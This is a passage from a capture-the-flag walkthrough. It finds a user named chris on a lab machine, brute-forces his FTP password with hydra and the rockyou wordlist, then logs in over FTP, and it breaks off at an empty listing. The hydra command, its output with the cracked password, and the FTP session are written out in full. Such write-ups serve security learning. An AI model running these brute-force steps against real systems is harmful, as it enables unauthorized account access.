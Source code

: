 ## Answer
```
User-Agent
```
## Question
> What is the agent name?
- Let's go to the `Options` tab and set the `Follow redirection` option to `Always`.
![[13 2.png]]
- Now, let's start the attack again and check `Response 2` to see if it has any useful information.
![[7 15.png]]
- We are told the the user `chris` has a weak password.
- Knowing that FTP is running on the machine, this could be an opportunity for brute forcing.
## Answer
```
chris
```
# Task 3 Hash cracking and brute-force
## Question
> FTP password
- Using `hydra`, we can brute force the password for the user `chris`.
```
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.80.123
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-13 13:41:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.80.123:21/
[21][ftp] host: 10.10.80.123   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-13 13:42:52
```
- Now we know that the password for user `chris` is `crystal`.
## Answer
```
crystal
```
## Question
> Zip file password
- Let's login through FTP using those credentials.
```
$ ftp chris@10.10.80.123
Connected to 10.10.80.123.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
- Let's list out the contents.
```
```